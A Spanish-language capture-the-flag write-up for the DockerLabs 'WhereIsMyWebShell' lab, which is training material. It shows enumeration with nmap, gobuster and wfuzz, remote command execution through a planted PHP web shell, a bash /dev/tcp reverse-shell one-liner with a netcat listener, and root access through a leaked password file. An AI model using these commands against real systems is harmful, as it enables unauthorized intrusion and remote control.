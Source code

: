 # DockerLabs - WhereIsMyWebShell

## Información General

- **Nombre del CTF:** DockerLabs
- **Categoría:** Explotación web
- **Dificultad:** Media
- **Fecha:** 23/01/2025

## Descripción del Desafío

El desafío **WhereIsMyWebShell** plantea un entorno donde el objetivo es descubrir y explotar una vulnerabilidad en un servidor web para subir o localizar una **web shell**, ganando acceso remoto al sistema. 

## Solución

### 1. Despliegue de la máquina

Como es de esperar, primero ejecutaremos el script proporcionado junto con la máquina para desplegar el laboratorio. Nos aparecerá un mensaje informándonos de la IP utilizada por la máquina vulnerable, que en este caso corresponde con la `192.168.100.2`.

```bash
sudo bash auto_deploy.sh whereismywebshell.tar
```

### 2. Análisis de vulnerabilidades

Comenzamos con un escaneo básico del servidor para identificar servicios activos:

```bash
nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.100.2
```

- `-p-`: Escanea todos los puertos disponibles (de 1 a 65535).
- `-sS`: Realiza un escaneo SYN (también conocido como escaneo "sigiloso" o "half-open"), que es más rápido y menos detectable en comparación con un escaneo completo de conexiones TCP.
- `-sC`: Ejecuta scripts predeterminados de Nmap (Nmap Scripting Engine) que proporcionan información adicional sobre los servicios detectados, como versiones y posibles vulnerabilidades.
- `-sV`: Detecta la versión de los servicios que se están ejecutando en los puertos abiertos.
- `--min-rate`: Establece una tasa mínima de envío de paquetes, en este caso de 5000 paquetes por segundo, lo que acelera el escaneo.
- `-n`: Desactiva la resolución de nombres DNS, lo que evita que Nmap intente resolver las direcciones IP a nombres de dominio, lo que mejora la velocidad del escaneo.
- `-vvv`: Establece un nivel de verborrea máximo, proporcionando información detallada sobre lo que Nmap está haciendo en cada paso del escaneo.
- `-Pn`: Desactiva el ping previo al escaneo, lo que significa que Nmap no hará un "ping" para verificar si el host está activo antes de realizar el escaneo de puertos. Esto es útil cuando el objetivo puede estar bloqueando pings o para escanear máquinas sin respuesta a los pings.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/1.png)

**Resultados del escaneo:**

- Puerto 80 abierto: Servidor HTTP.

#### Análisis del servicio HTTP

Abrimos el navegador y accedemos a `http://192.168.100.2`. Allí encontramos una página web simple, y al final de la misma, un consejo dejado por su creador recomendándonos explorar el directorio "/tmp". Usamos la herramienta `gobuster` para enumerar directorios ocultos (requiere instalación previa):

```bash
gobuster dir -u http://192.168.100.2 -w /usr/share/wordlists/directory-list-2.3-medium.txt -x txt,html,php,py,sh
```

- `gobuster`: Es la herramienta que se utiliza para realizar la enumeración de directorios y archivos en un servidor web.
- `dir`: Indica que el modo de operación es búsqueda de directorios y archivos.
- `-u`: Especifica la URL del servidor web que se está escaneando.
- `-w`: Define el archivo de lista de palabras que contiene posibles nombres de directorios y archivos a buscar en el servidor. En este caso, se utilizaremos una lista estándar con nombres comunes.
- `-x`: Define las extensiones de archivos que se probarán para cada entrada en la lista de palabras. 

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/2.png)

**Resultados relevantes:**

- `shell.php`
- `warning.html`

### 3. Explotación

Inspeccionamos el archivo `warning.html` y encontramos lo siguiente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/3.png)

Al intentar acceder a `shell.php`, no obtenemos ninguna respuesta visible. Esto sugiere que el archivo está esperando un parámetro específico para ejecutar comandos, algo similar a:

```bash
http://192.168.100.2/shell.php?[parametro]=whoami
```

Nuestro objetivo es descubrir cuál es ese parámetro desconocido. Para ello, utilizaremos **wfuzz** y probaremos diferentes nombres de parámetros extraídos de un diccionario común.

```bash
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=whoami"
```

- `wfuzz`: Herramienta utilizada para realizar fuzzing en aplicaciones web.
- `-c`: Habilita la salida en color para facilitar la lectura de los resultados.
- `--hl=0`: Filtra las respuestas basándose en la longitud del contenido. En este caso, muestra solo las respuestas cuya longitud es diferente de 0 (útil para evitar respuestas vacías o irrelevantes).
- `-t 200`: Configura 200 hilos de ejecución en paralelo, acelerando significativamente el proceso.
- `-w`: Especifica el diccionario de palabras que se utilizará. Este diccionario contiene una lista de posibles nombres de parámetros o directorios.
- `-u "http://172.17.0.2/shell.php?FUZZ=whoami"`: Define la URL objetivo. La palabra clave `FUZZ` será reemplazada por cada palabra del diccionario. El parámetro reemplazado (`FUZZ`) se utilizará para intentar ejecutar el comando `whoami`.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/4.png)

La ejecución del comando nos devuelve como resultado el parámetro "parameter". Esto sugiere que hemos encontrado el parámetro correcto. Procedemos a verificarlo directamente en la web, y confirmamos que efectivamente hemos conseguido un **RCE** (Ejecución Remota de Comandos).

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/5.png)

Ahora crearemos redactaremos una línea de código para ejecutar una **Reverse Shell** y ganar así acceso a la máquina. Nos dirigimos al sitio web: https://tex2e.github.io/reverse-shell-generator/index.html

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/6.png)

```bash
bash -i >& /dev/tcp/192.168.100.1/4444 0>&1
```

Abrimos Burpsuite y utilizamos su "Encoder" para codificar el comando en `URL`, modificándolo ligeramente:

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/7.png)

Ponemos la máquina en modo escucha con la siguiente orden:

```bash
nc -nlvp 4444
```

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/8.png)

Colocamos el resultado en la URL justo detrás del parámetro y se nos abrirá una shell en la terminal.

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/9.png)

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/10.png)


### 4. Escalada de Privilegios

Una vez dentro, nos dirigimos al directorio "/tmp", ya que en el sitio web nos aconsejaron visitarlo. Listamos el contenido del mismo con `ls -la` para que mostrar también los archivos ocultos y encontramos un fichero llamado `secret.txt`. Lo visualizamos con `cat` y obtenemos la contraseña del usuario root. 

¡Hemos tomado el control de la máquina!

![image](https://github.com/eliferrob/CTFs/blob/main/DockerLabs%20-%20WhereIsMyWebShell/assets/11.png)

## Lecciones Aprendidas

- La validación de archivos en los formularios de subida es crucial para evitar la ejecución de web shells.
- La enumeración de directorios y análisis manual son esenciales en desafíos web.

## Recursos

- [Documentación oficial de PHP](https://www.php.net/)
- [Herramientas utilizadas: Nmap, Gobuster...](https://github.com/tools)
